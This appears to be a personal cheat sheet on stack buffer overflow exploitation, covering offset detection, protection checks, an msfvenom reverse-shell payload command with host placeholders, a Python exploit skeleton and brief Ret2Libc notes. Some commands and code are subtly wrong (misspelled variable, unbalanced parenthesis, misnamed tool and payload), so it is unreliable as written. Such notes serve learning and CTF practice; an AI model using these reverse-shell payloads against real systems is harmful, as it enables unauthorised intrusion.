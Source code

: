# Buffer Overflow

- [pwntools](https://docs.pwntools.com/en/stable/)
- detect offset
	```
	msf-pattern_create -l 5000
	msf-pattern_create -l 5000 -q <pattern>
	```
- check protections
    ```
	checksec <binary>
	cat /proc/sys/kernel/randomize_va_space # ASLR
	```

## Stack Shellcode

- NX Stack, ASLR and Stack Canaries should be disabled
```bash
msf-venom -p linux/x64/shell_reverse/tcp LHOST=<host> LPORT=<port> --format py --bad-chars '\x00'
```
```python
payload_length = 1337 # offset from pattern
buf = "" # insert msfvenom payload
nopsled = "\x90"*20 # adapt if necessary
pad = "A" * ((payload_length - len(nosled)) - len(buf)
rip = "<ADRESS>"[::-1] # little endian

print(nopsled + buf + pad + rip)
```

## Ret2Libc

- ASLR and Stack Canaries should be disabled
- get address of system function, of exit function and of the string ``/bin/sh``
